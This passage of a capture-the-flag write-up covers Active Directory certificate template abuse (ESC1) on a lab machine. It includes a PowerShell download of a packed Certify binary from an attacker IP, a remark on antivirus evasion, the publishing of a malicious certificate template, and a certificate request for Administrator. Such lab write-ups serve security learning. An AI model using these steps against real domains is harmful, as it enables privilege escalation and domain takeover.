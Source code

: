 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Invoke-WebRequest -Uri http://10.10.14.11/CertifyExecAssemblyNimPackt.exe -Outfile Certify.exe
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
We can see that the AV didn't get our binary :)

![Image](https://i.imgur.com/OQx78aT.png)


We use certify to search for vulnerable templates:
![Image](https://i.imgur.com/J7JSB4R.png)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
.\Certify.exe find /vulnerable
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

In this case, it was not possible to find any vulnerable templates :/

But! We can send a new template:

Let's use this ESC1.json template, available on github: 

https://raw.githubusercontent.com/Orange-Cyberdefense/GOAD/4cc6cbc1bdc86a236649d6c1e2c0dbf856bedeb6/ansible/roles/adcs_templates/files/ESC1.json

We added this snippet in ESC1.json, it allows the PKI Admins group to have enroll permissions.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
"msPKI-Enrollment-ACL": [
        {
            "AccessString": "1.3.6.1.4.1.311.21.8.16735922.7437492.10570883.2539024.15756463.185.9025784.11813639.2",
            "Group": "CN=PKI Admins,CN=Users,DC=coder,DC=htb"
        }
    ]
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


We upload ESC1.json to the server under the name of chu.json:

![Image](https://i.imgur.com/dw1UIZ7.png)



Now we use the contents of the ESC1.json file to create a new template, we will create one called 'chu'

![image](https://i.imgur.com/oBmTPVh.png)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
New-ADCSTemplate -DisplayName chu -JSON (Get-Content .\chu.json -Raw) -Publish -Identity "CODER\PKI Admins"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


With the template created on the server side, we use certipy to request a certificate with the UPN: Administrator

![Image](https://i.imgur.com/no0iLoZ.png)

We were able to successfully create the certificate, but when trying to authenticate, we got the wrong clock error.
